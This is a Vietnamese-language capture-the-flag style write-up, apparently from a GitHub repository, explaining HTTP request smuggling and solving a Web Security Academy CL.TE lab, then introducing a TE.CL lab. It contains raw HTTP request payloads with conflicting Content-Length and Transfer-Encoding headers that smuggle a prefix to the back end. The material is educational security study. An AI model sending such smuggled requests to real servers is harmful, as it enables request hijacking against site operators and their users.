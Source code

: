 #### CL.TE vulnerabilities
Server front-end sử dụng Transfer-Encoding header và server back-end sử dụng Content-Length header. Chúng tôi có thể thực hiện một cuộc tấn công HTTP request smuggling đơn giản như sau:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Front-end server xác định được Content-lenght là nội dung của request dài 13 bytes, kết thức bằng từ SMUGGLED và gửi nó đến server back-end.

Server back-end xử lý Tranfer-Encoding header và do đó xử lý nội dung thư như sử dụng mã hóa phân đoạn(chunked encoding) . Nó xử lý đoạn đầu tiên, được cho biết là có độ dài bằng 0, và như vậy được coi là kết thúc request. Các byte sau, cụ thể là từ SMUGGLED, không được xử lý và server back-end sẽ coi chúng là phần bắt đầu của yêu cầu tiếp theo trong chuỗi. Từ đó chúng ta có thể lợi dụng kẽ hỡ này để gọi nên phước thức GPOST bằng cashc thay SMUGGLED bằng G .



![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_GPOST.png?raw=true)


Sau đó có payload như sau : 

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
Chuyển request qua repeater và send 2 lần và chúng ta được kết quả phương thức GPOST.


![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTE_solve.png?raw=true)

### Lab: HTTP request smuggling, basic TE.CL vulnerability
```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```
Đối với yêu cầu tương tự bài lab trên, tuy nhiên lỗ hổng khai thác lại là loại khác đầy là loại *TE.CL vulnerabilities*. Vậy bây giờ chúng ta tìm hiểu qua xem cách khai thác lỗ hổng này như thế nào nhé.

